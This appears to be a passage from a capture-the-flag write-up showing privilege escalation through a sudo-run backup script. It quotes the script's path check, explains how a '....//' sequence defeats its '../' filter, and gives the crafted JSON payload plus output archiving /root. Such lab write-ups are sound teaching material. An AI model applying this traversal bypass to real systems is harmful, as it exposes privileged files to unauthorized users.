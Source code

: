 ```sh
directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

A closer inspection of `/usr/bin/backy.sh` reveals that the script applies `map(gsub("\\.\\./"; ""))` to the `directories_to_archive` key from the JSON configuration file. This removes literal `../` sequences. However, this filtering can be bypassed by using `....//`, which partially strips the input while still allowing traversal outside the intended directory, achieving the same effect as `../`

We modify the contents of `task.json`, placing our crafted payload within the `directories_to_archive` field to exploit the directory traversal vulnerability:

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/app-production/app/....//....//....//root/"
  ]
} 

```

Executing the modified command produces a backup of the `/root` directory, which is saved under `/home/martin/backups/`

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json 
2025/08/19 20:29:31 🍀 backy 1.2
2025/08/19 20:29:31 📋 Working with task.json ...
2025/08/19 20:29:31 💤 Nothing to sync
2025/08/19 20:29:31 📤 Archiving: [/home/app-production/app/../../../root]
2025/08/19 20:29:31 📥 To: /home/martin/backups ...
2025/08/19 20:29:31 📦
tar: Removing leading `/home/app-production/app/../../../' from member names
/home/app-production/app/../../../root/
/home/app-production/app/../../../root/.local/
/home/app-production/app/../../../root/.local/share/
/home/app-production/app/../../../root/.local/share/nano/
/home/app-production/app/../../../root/.local/share/nano/search_history
/home/app-production/app/../../../root/.selected_editor
/home/app-production/app/../../../root/.sqlite_history
/home/app-production/app/../../../root/.profile
/home/app-production/app/../../../root/scripts/
/home/app-production/app/../../../root/scripts/cleanup.sh
```
